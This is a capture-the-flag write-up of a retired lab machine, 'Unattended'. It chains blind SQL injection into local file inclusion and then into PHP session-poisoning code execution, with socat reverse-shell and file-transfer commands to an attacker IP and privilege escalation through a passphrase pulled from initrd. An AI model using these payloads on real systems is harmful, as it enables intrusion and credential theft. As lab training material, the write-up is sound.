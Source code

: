 ```yaml
---
layout: post
title:  "Unattended writeup by Friscas"
---
```


![Image](/assets/unattended/img0.png)

Hello guys, i’m Friscas from the team chmod755 and this is my first write-up.
Today i’m going to release this writeup of the retired Unattended machine!

# Enumeration
As usual we start with mapping the network using the wonderful tool Nmap  

![Image](/assets/unattended/img1.png)

And we get 2 open ports: port 80 and port 443! As you can see we even have a domain name for the “https://” port. Let’s add it to /etc/hosts

![Image](/assets/unattended/img2.png)

Now that we have added the domain name in our host database, we can open the website in our browser and start checking for a vuln.

So when we open the website we get the default Apache index  

![Image](/assets/unattended/img3.png)

So what if we try to search “/index.php” ?

![Image](/assets/unattended/img4.png)

We found something; now it is time to check the source code to see what we got

![Image](/assets/unattended/img5.png)

So  we can see we have parameters in “index.php”, “id” is the parameter. We can start with basic tests such as SQLi.. Appending “%27” to the end of  the URl is a good way to test for any problems
![Image](/assets/unattended/img6.png)  
`Before the %27`

![Image](/assets/unattended/img7.png)  
`After adding the %27`

We  can see that the website response is different. I think we are in the  right path. Now it is time to check which type of SQLi we have here.

Since  we have no errors, this means that this is not an error-based SQLi (the  classic one), but we can test for Blind SQLi, by using the boolean  method (thanks to George Boole,  for this amazing function). So now we gonna check the boolean variable  by getting the response of the website,TRUE and FALSE! How can we get  this? Simple; using the logical “and” operator: “index.php?id=587' and 1  = 1 — -”.. here’s the website’s response

![Image](/assets/unattended/img8.png)


The page is the same as when we go to” index.php?id=587" without the “%27",  but when we go to “index.php?id=587' and 1 = 2 — -”, we get

![Image](/assets/unattended/img9.png)

Since 1 is not 2, then the response is false! Blind SQLi confirmed.

We can fireup sqlmap now but we don’t get anything useful as credentials but we will find a table called “filepath” that contain the php files  that are included inside the index.php, so we can test manually! Maybe  we can read files and even execute them :D

We can use this amazing sql query: `UNION (SELECT ‘contact\’ UNION (SELECT \’/path/here\’ FROM filepath) — ‘) — +`

N.B  I have spent a lot of time trying and trying with load_file() and it  didn’t work so i want to thank the discord user: roughplay#1808 (TW: dastan9408) for helping me with that query!

ok now we test to get /etc/passwd but first we intercept the request using burpsuite and send it to Repeater!

![Image](/assets/unattended/img10.png)  
```This is the request with the parameter value url encoded: https://www.nestedflanders.htb/index.php?id=587' UNION (SELECT ‘contact/’ UNION (SELECT /’/etc/passwd/’ FROM filepath) — ‘) —```

So  as you can see we got the /etc/passwd! We got an LFI via SQLi :D how  amazing! But we can chain vulns and get RCE via LFI by log poisoning!  Exciting right? So LFI to RCE via SQLi!

Here you can find everything you need about log poisoning!

So we got as COOKIE a PHPSESSID! If you read the github repo we can see there is a LFI to RCE via PHP sessions!

Let’s give it a try!

![Image](/assets/unattended/img11.png)  
```https://www.nestedflanders.htb/index.php?id=587' UNION (SELECT ‘contact/’ UNION (SELECT /’/var/lib/php/sessions/sess_COOKIE’ FROM filepath) — ‘) —```

So now i created a new cookie with our RCE payload `<?php  system(“whoami”)?>` (url encoded)! and We get www-data, so we are  www-data! now it’s time for a reverse shell, we can use socat, and we  gonna listen to port 80!
```
Listener: socat file:`tty`,raw,echo=0 tcp-listen:80
Launch: exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:80
```

And we get the shell :D

![Image](/assets/unattended/img12.png)


Mmmm we are www-data, we can’t get the user flag because we don’t have the  privileges! It’s time to do some privesc. “ls” returns index.php, maybe  we can find credentials in there :D

![Image](/assets/unattended/img13.png)


and we get some mysql credentials. :D Time to check the mysql databse

![Image](/assets/unattended/img14.png)

the config table seems really interesting, time to check it

![Image](/assets/unattended/img15.png)

there’s some useless credentials but we get what it seems something that get executed

![Image](/assets/unattended/img16.png)

maybe if we change that value with a rev shell it will get executed, let’s try

![Image](/assets/unattended/img17.png)  
and after a little bit we get the shell :D

![Image](/assets/unattended/img18.png)
and we even get the user flag :D

# Privesc
Trying sudo we see it is not installed so we can check id to see our group

![Image](/assets/unattended/img19.png)

oh, weird we are part of the group grub, we can find files where grub have the permission on

![Image](/assets/unattended/img20.png)

Lol, we got initrd.img, and reading this article we can understand that initrd.img is nothing but a compressed file so it’s time to download the file on our machine and decompress it.

For downloading the file on our machine we can use socat again.

Since we are using port 443 for the shell as guly, we can use again port 80 for downloading the file.
```
Receiver: socat -u TCP-LISTEN:80,reuseaddr OPEN:initrd.img-4.9.0-8-amd64,creat 
Sender: socat -u FILE:/boot/initrd.img-4.9.0-8-amd64 TCP:IP:80
```

![Image](/assets/unattended/img21.png)

Now we can check for useful things as credentials: `grep -nr “password”`. and see what we get

![Image](/assets/unattended/img22.png)

mmmm let’s check the:”/scripts/local-top/cryptroot” script and see if we get something useful. :P

Reading the source code we can see this line of code:  
```
if ! crypttarget=”$crypttarget” cryptsource=”$cryptsource” \
 /sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen ; then message “cryptsetup failed, bad password or options?””
```  
This command: `/sbin/uinitrd c0m3s3f0ss34nt4n1` will let us get the root password! Let’s try this :D
![Image](/assets/unattended/img23.png)
__Since im not VIP my friend send me the screenshot that’s why is different xD__

And let’s gooooo! we are now root and we can get the flag :P

__Hoped you all enjoyed my writeup__

__Ciao :D__

